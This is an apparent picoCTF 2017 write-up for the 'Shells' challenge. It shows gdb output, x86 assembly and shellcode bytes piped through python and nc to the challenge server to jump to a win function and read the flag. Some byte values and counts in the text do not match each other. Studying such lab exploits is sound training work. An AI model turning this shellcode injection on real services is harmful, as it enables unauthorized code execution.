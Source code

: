# Shells

```
How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:58279.
HINTS
Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag
```

This is identical to shellz except that the program only reads 10 bytes and includes a win function that when called will give us a shell.

```C
void win(){
    system("/bin/cat ./flag.txt");
}
```

Let's find the address of the win function in gdb.

```
$ gdb shells -q
Reading symbols from shells...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x8048540 <win>
(gdb)
```

So we need to execute an assembly instruction via the bytes that we enter to call or jump to a function at that location. We used the online assembly compiler from [https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm) for this purpose.

Our initial though was to simply execute a call instruction to the memory address of the win function. But it is important to note that the assembly call and jmp instructions are **relative.** They add to the line you are currently on the given argument and then execute the instructions at that new position. So neither of these worked.

```ASM
call 0x8048540
```
```ASM
jmp 0x8048540
```

We spent hours trying to figure out how to get it to call the right address. In the end we tried values until it lined up with the address we wanted to execute instructions at using the location of segfaults in memory, information we gained via the use of gdb. The result was 2 instructions that did work.

```ASM
jmp    0x1007253b
```
Which compiles to:
```
0:  e9 37 25 07 10          jmp    1007253c <_main+0x1007253c>
```
```ASM
call 0x1007253b
```
Which compiles to:
```
0:  e8 37 25 07 10          call   1007253c <_main+0x1007253c>
```

We injected the jmp instruction into the program using a python -c command, although we could also have used echo -e. The result below yields the flag.

```
$ (python -c "print '\xe9\x36\x25\x07\x10'"; cat) | nc shell2017.picoctf.com 58279
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
84f1e856de605076057b0687dfd0865f
```

While our original solution does work. It was tedious to derive and they gave use a full 10 bytes worth of instruction to accomplish our goal. Those familiar with assembly will note that it takes only 6 bytes to push to the stack and return to that address. We recommend this solution.

```ASM
push 0x8048540
ret
```

This compiles to the following shellcode.

```
0:  68 40 85 04 08          push   0x8048540
5:  c3                      ret 
```

As a string literal, it can be injected using the following python command. It yields the same result with only one extra byte. That byte is certainly worth the hours we spent not using it.

```
$ (python -c "print '\x68\x40\x85\x04\x08\xC3'"; cat) | nc shell2017.picoctf.com 58279
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
84f1e856de605076057b0687dfd0865f
```

As another note. There may be a way to do an absolute call instruction in x86 assembly but we did not explore it here because we were unable to get it to work. Message us if you find a solution involving such an instruction. We would love to hear about it.
